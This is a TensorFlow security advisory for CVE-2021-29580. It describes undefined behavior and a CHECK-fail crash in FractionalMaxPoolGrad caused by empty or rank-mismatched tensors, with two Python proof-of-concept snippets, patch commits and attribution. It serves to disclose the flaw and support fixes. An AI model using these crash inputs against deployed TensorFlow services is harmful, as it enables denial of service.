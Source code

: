 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-066.md
## TFSA-2021-066: Undefined behavior and `CHECK`-fail in `FractionalMaxPoolGrad`

### CVE Number
CVE-2021-29580

### Impact
The implementation of `tf.raw_ops.FractionalMaxPoolGrad` triggers an undefined
behavior if one of the input tensors is empty:

```python
import tensorflow as tf

orig_input = tf.constant([2, 3], shape=[1, 1, 1, 2], dtype=tf.int64)
orig_output = tf.constant([], dtype=tf.int64)
out_backprop = tf.zeros([2, 3, 6, 6], dtype=tf.int64)
row_pooling_sequence = tf.constant([0], shape=[1], dtype=tf.int64)
col_pooling_sequence = tf.constant([0], shape=[1], dtype=tf.int64)

tf.raw_ops.FractionalMaxPoolGrad(
  orig_input=orig_input, orig_output=orig_output, out_backprop=out_backprop,
  row_pooling_sequence=row_pooling_sequence,
  col_pooling_sequence=col_pooling_sequence, overlapping=False)
```

The code is also vulnerable to a denial of service attack as a `CHECK` condition
becomes false and aborts the process

```python
import tensorflow as tf

orig_input = tf.constant([1], shape=[1], dtype=tf.int64)
orig_output = tf.constant([1], shape=[1], dtype=tf.int64)
out_backprop = tf.constant([1, 1], shape=[2, 1, 1, 1], dtype=tf.int64)
row_pooling_sequence = tf.constant([1], shape=[1], dtype=tf.int64)
col_pooling_sequence = tf.constant([1], shape=[1], dtype=tf.int64)

tf.raw_ops.FractionalMaxPoolGrad(
  orig_input=orig_input, orig_output=orig_output, out_backprop=out_backprop,
  row_pooling_sequence=row_pooling_sequence,
  col_pooling_sequence=col_pooling_sequence, overlapping=False)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/169054888d50ce488dfde9ca55d91d6325efbd5b/tensorflow/core/kernels/fractional_max_pool_op.cc#L215)
fails to validate that input and output tensors are not empty and are of the
same rank. Each of these unchecked assumptions is responsible for the above
issues.

### Patches
We have patched the issue in GitHub commit
[32fdcbff9d06d010d908fcc4bd4b36eb3ce15925](https://github.com/tensorflow/tensorflow/commit/32fdcbff9d06d010d908fcc4bd4b36eb3ce15925).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
